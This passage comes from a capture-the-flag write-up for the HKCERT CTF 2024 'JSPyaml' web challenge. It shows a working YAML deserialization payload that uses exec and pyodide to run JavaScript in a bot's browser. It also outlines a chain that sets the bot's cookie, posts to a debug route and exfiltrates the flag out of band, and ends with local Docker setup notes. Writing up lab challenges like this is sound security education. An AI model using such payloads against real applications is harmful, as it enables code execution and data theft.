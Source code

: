 ```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "print(__import__('pyodide').code.run_js('alert(document.domain)'))"
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2024/images/Pasted%20image%2020241117212731.png)

Oh! We can now execute arbitrary JavaScript code!

That means... **We can set the bot's cookie `debug=on` and send a POST request to the debug route!!!**

## Exploitation

Armed with above information, the exploitation steps are:
1. Prepare our **client-side** YAML deserialization payload, which sets the bot's cookie and send a POST request to the debug route
2. Send URL `http://localhost:3000/#<client-side_YAML_deserialization_payload_here>` to the bot
3. The bot visits our URL, executes our **client-side** YAML deserialization payload
4. The bot sends our **server-side** YAML deserialization payload to the debug route
5. The server-side payload exfiltrate the flag via OOB (Out-of-Band) data exfiltration. (Because we can't see the output directly, it's in the bot's browser)

To test this locally, we can spin up the Docker container via `docker compose`.

But before we do that, we'll need to modify the POST `/report` route to the following. This is because we don't want the hCaptcha to get in our way.

```javascript
app.post('/report', async (req, res) => {
    const url = req.body.url;
    browse(url);
});
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/JSPyaml)-[2024.11.17|20:12:44(HKT)]
└> docker compose up                                                    
[...]
[+] Running 2/2
 ✔ Network jspyaml_default      Created                                                                0.1s 
 ✔ Container jspyaml-jspyaml-1  Created                                                                0.0s 
Attaching to jspyaml-1
jspyaml-1  | Server is running at http://localhost:3000
```

> Note: Due to some unknown reasons, Docker command `RUN npm install` takes a very long time to finish the execution. To "skip" it, we can install all the libraries, then copy directory `node_modules` to Docker container's path `/app/node_modules/`.
>  
> ```shell
> ┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/JSPyaml)-[2024.11.17|20:15:44(HKT)]
> └> cd web 
> ┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/JSPyaml/web)-[2024.11.17|20:15:46(HKT)]
> └> npm install    
> [...]
> ```
> 
> Then modify `web/Dockerfile` with the following:
> ```bash
> [...]
> # RUN npm install
> COPY node_modules/ /app/node_modules/
> RUN chmod 555 -R /app/
> [...]